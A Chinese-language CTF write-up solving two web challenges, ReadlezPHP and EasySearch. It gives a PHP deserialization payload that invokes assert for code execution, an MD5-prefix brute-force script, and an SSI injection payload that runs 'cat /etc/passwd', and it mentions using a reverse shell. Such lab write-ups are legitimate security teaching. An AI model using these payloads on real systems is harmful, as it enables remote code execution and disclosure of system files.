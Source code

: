 ```yaml
---
title: ReadlezPHP&EasySearch
date: 2021-04-20 17:12:43
categories: ['CTF']
tags: ['反序列化','SSI注入']
cover: https://cdn.jsdelivr.net/gh/penginman/PicBed@master/cover/20201120223513.jpg
---
```


# ReadlezPHP



源码找到`time.php?source`

![](https://cdn.jsdelivr.net/gh/penginman/PicBed@master/artical/20210420175641.png)

```php
<?php
#error_reporting(0);
class HelloPhp
{
    public $a;
    public $b;
    public function __construct(){
        $this->a = "Y-m-d h:i:s";
        $this->b = "date";
    }
    public function __destruct(){
        $a = $this->a;
        $b = $this->b;
        echo $b($a);
    }
}
$c = new HelloPhp;

if(isset($_GET['source']))
{
    highlight_file(__FILE__);
    die(0);
}

@$ppp = unserialize($_GET["data"]);
```

分析一波：最后一行一个反序列化，所以很明显是反序列化的题目，在`HelloPhp`中有一个`__destruct`方法，会在创建的对象销毁时执行，注意里面有一个echo输出，最重要的是后面的函数调用 ，好像是在PHP7某个版本之后只是使用形如`$a($b)`格式进行函数调用，假如变量`a`为字符串`var_dump`，`b`是任意字符串，就相当于调用var_dump函数且参数为b。

所以构造反序列化，调用assert函数执行phpinfo。如果向**assert()** 函数传递字符串，它将会被 **assert()** 当做 PHP 代码来执行)：

```
<?php
class HelloPhp
{
    public $a='phpinfo()';
    public $b='assert';
}

$s=new HelloPhp();
echo serialize($s);

```

POST请求

```
time.php?data=O:8:"HelloPhp":2:{s:1:"a";s:9:"phpinfo()";s:1:"b";s:6:"assert";}
```

页面查找flag，在environment中找到flag

![](https://cdn.jsdelivr.net/gh/penginman/PicBed@master/artical/20210420175822.png)

# EasySearch

![](https://cdn.jsdelivr.net/gh/penginman/PicBed@master/artical/20210420171541.png)

进入页面以后试了试sql注入发现没用。第一步是看了wp找到的：使用扫描器扫描到`index.php.swp`文件：

```php
<?php
	ob_start();
	function get_hash(){
		$chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!@#$%^&*()+-';
		$random = $chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)];//Random 5 times
		$content = uniqid().$random;
		return sha1($content); 
	}
    header("Content-Type: text/html;charset=utf-8");
	***
    if(isset($_POST['username']) and $_POST['username'] != '' )
    {
        $admin = '6d0bc1';
        if ( $admin == substr(md5($_POST['password']),0,6)) {
            echo "<script>alert('[+] Welcome to manage system')</script>";
            $file_shtml = "public/".get_hash().".shtml";
            $shtml = fopen($file_shtml, "w") or die("Unable to open file!");
            $text = '
            ***
            ***
            <h1>Hello,'.$_POST['username'].'</h1>
            ***
			***';
            fwrite($shtml,$text);
            fclose($shtml);
            ***
			echo "[!] Header  error ...";
        } else {
            echo "<script>alert('[!] Failed')</script>";
            
    }else
    {
	***
    }
	***
?>
```

登陆功能又一个验证，需要传入的`passwd`参数使用**md5**加密以后是以**6d0bc1**开头的。简单写个脚本跑一下就有了：

```python
# codeing=utf-8
import hashlib

cnt=1;
while True:
    md=hashlib.md5(str(cnt).encode("utf8")).hexdigest()
    if md.startswith("6d0bc1"):
        print(cnt)
    cnt+=1
#2020666
#2305004
```

分析源码登陆以后会创建一个欢迎页，使用POST请求，抓包可以在响应头里找到创建文件的位置和名称。

![](https://cdn.jsdelivr.net/gh/penginman/PicBed@master/artical/20210417102904.png)

看了看文件后缀是一格没有见过的：`shtml`，然后学到到了shtml有一种漏洞：[SSI注入漏洞](https://blog.csdn.net/qq_40657585/article/details/84260844)

> SSI 注入全称Server-Side Includes Injection，即服务端包含注入。SSI 是类似于 CGI，用于动态页面的指令。SSI 注入允许远程在 Web 应用中注入脚本来执行代码。

简单的命令执行

```code
"-->'-->`--><<!--#exec cmd="cat /etc/passwd"-->
```

我使用了反弹shell，自行修改一下命令即可。在/var/www/html目录下可以找到一个名为`flag_990c66bf85a09c664f0b6741840499b2`的文件，获得flag